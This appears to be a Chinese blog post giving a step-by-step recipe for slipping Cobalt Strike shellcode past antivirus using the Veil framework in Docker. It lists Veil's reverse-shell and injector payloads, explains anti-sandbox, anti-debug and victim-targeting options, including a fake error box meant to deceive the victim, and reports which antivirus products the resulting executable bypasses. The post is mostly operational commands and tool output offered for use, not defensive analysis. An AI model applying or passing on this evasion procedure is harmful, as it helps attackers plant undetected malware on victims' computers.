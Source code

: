﻿---
layout: post
title: 免杀：结合veillCS shellcode免杀
date: 2019-10-06
categories: blog
tags: [免杀，shellcode]
description: 结合veillCS shellcode免杀
---

####一、CS生成shellcode
>攻击-生成后门-payload generator-选veil
![](https://upload-images.jianshu.io/upload_images/15634342-b3f4963cc1ffcf03.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
####二、安装veil
>安装`docker pull mattiasohlsson/veil`
>启动`docker run -it -v /tmp/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil`
>生成的exe文件在/tmp/veil-output，之后在这取
####三、veil免杀
```
[*] Available Tools:
    1)  Evasion
    2)  Ordnance
```
>use 1
```
[*] Available Payloads:

    1)  autoit/shellcode_inject/flat.py

    2)  auxiliary/coldwar_wrapper.py
    3)  auxiliary/macro_converter.py
    4)  auxiliary/pyinstaller_wrapper.py

    5)  c/meterpreter/rev_http.py
    6)  c/meterpreter/rev_http_service.py
    7)  c/meterpreter/rev_tcp.py
    8)  c/meterpreter/rev_tcp_service.py

    9)  cs/meterpreter/rev_http.py
    10) cs/meterpreter/rev_https.py
    11) cs/meterpreter/rev_tcp.py
    12) cs/shellcode_inject/base64.py
    13) cs/shellcode_inject/virtual.py

    14) go/meterpreter/rev_http.py
    15) go/meterpreter/rev_https.py
    16) go/meterpreter/rev_tcp.py
    17) go/shellcode_inject/virtual.py

    18) lua/shellcode_inject/flat.py

    19) perl/shellcode_inject/flat.py
```
>use 17
```
BADMACS 设置为Y表示 查看运行环境的MAC地址如果不是虚拟机才会执行payload （反调试）
CLICKTRACK 设置为4表示 表示需要4次点击才会执行
CURSORCHECK 设置为100表示 运行环境的硬盘大小如果大于100GB才会执行payload （反沙箱）
COMPILE_TO_EXE 设置为Y表示 编译为exe文件
HOSTNAME 设置为Comp1表示 只有在Hostname计算机名为Comp1时才会执行payload（指定目标环境 反沙箱的方式）
INJECT_METHOD 可设置为Virtual 或 Heap
MINPROCS 设置为20表示 只有运行环境的运行进程数大于20时才会执行payload（指定目标环境 反沙箱的方式）
PROCCHECK 设置为Y表示 只有运行环境的进程中没有虚拟机进程时才会执行payload（指定目标环境 反沙箱的方式）
PROCESSORS 设置为2表示 只在至少2核的机器中才会执行payload（指定目标环境 反沙箱的方式）
RAMCHECK 设置为Y表示 只在运行环境的内存为3G以上时才会执行payload（指定目标环境 反沙箱的方式）
SLEEP 设置为10表示 休眠10秒 以检测是否运行过程中被加速（反沙箱）
USERNAME 设置为Tom表示 只有在当前用户名为Tom的机器中才执行payload。
USERPROMPT 设置为Y表示 在injection之前提醒用户（提示一个错误框，让用户误以为该程序执行错误才无法打开）
DEBUGGER 设置为Y表示 当被调试器不被attached时才会执行payload （反调试）
DOMAIN 设置为Comp表示 受害者计算机只有加入Comp域中时，才会执行payload（指定目标环境 反沙箱的方式）
UTCCHECK 设置为Y表示 只在运行环境的系统使用UTC时间时，才会执行payload
```
>set 都是可选的，都为了绕过，不选也行

>generate(生成)

>复制CS生成的payload.txt内容，到这个位置
![](https://upload-images.jianshu.io/upload_images/15634342-8d4ac6f9c786149a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>输入文件名

>去这找生成的exe文件，/tmp/veil-output
####四、结论
>win7：随便过
win10：此种免杀可以过360、火绒、qq管家等杀软，但是过不了windwos defender？？，然而安装了360、火绒、qq管家等杀软会把win10的defender挤掉，所以也能过？？
10月6日复测，最新的数字卫士已经能检测出来了















